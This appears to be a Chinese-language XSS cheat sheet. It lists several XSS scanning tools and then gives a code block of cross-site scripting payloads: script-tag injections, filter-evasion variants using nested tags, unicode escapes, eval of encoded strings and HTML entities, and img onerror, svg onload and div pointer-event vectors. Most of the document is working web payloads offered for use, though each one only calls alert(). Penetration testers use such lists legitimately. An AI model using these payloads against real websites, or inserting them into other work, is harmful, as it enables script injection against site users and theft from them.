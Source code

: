 ### 工具

大多数工具也适用于盲XSS攻击：

- [XSSStrike](https://github.com/s0md3v/XSStrike): 非常受欢迎但不幸的是维护得不太好
- [xsser](https://github.com/epsylon/xsser): 利用无头浏览器检测XSS漏洞
- [Dalfox](https://github.com/hahwul/dalfox): 功能广泛且由于Go语言实现而极其快速
- [XSpear](https://github.com/hahwul/XSpear): 类似于Dalfox但基于Ruby
- [domdig](https://github.com/fcavallarin/domdig): 无头Chrome XSS测试器

## HTML/应用程序中的XSS

### 常见载荷

```javascript
// 基础载荷
<script>alert('XSS')</script>
<scr<script>ipt>alert('XSS')</scr<script>ipt>
"><script>alert('XSS')</script>
"><script>alert(String.fromCharCode(88,83,83))</script>
<script>\u0061lert('22')</script>
<script>eval('\x61lert(\'33\')')</script>
<script>eval(8680439..toString(30))(983801..toString(36))</script> //parseInt("confirm",30) == 8680439 && 8680439..toString(30) == "confirm"
<object/data="jav&#x61;sc&#x72;ipt&#x3a;al&#x65;rt&#x28;23&#x29;">

// 图像载荷
<img src=x onerror=alert('XSS');>
<img src=x onerror=alert('XSS')//
<img src=x onerror=alert(String.fromCharCode(88,83,83));>
<img src=x oneonerrorrror=alert(String.fromCharCode(88,83,83));>
<img src=x:alert(alt) onerror=eval(src) alt=xss>
"><img src=x onerror=alert('XSS');>
"><img src=x onerror=alert(String.fromCharCode(88,83,83));>
<><img src=1 onerror=alert(1)>

// SVG载荷
<svgonload=alert(1)>
<svg/onload=alert('XSS')>
<svg onload=alert(1)//
<svg/onload=alert(String.fromCharCode(88,83,83))>
<svg id=alert(1) onload=eval(id)>
"><svg/onload=alert(String.fromCharCode(88,83,83))>
"><svg/onload=alert(/XSS/)
<svg><script href=data:,alert(1) />(`Firefox` 是唯一允许自闭合脚本的浏览器)
<svg><script>alert('33')
<svg><script>alert&lpar;'33'&rpar;

// Div载荷
<div onpointerover="alert(45)">MOVE HERE</div>
<div onpointerdown="alert(45)">MOVE HERE</div>
<div onpointerenter="alert(45)">MOVE HERE</div>
<div onpointerleave="alert(45)">MOVE HERE</div>
<div onpointermove="alert(45)">MOVE HERE</div>
<div onpointerout="alert(45)">MOVE HERE</div>
<div onpointerup="alert(45)">MOVE HERE</div>
```
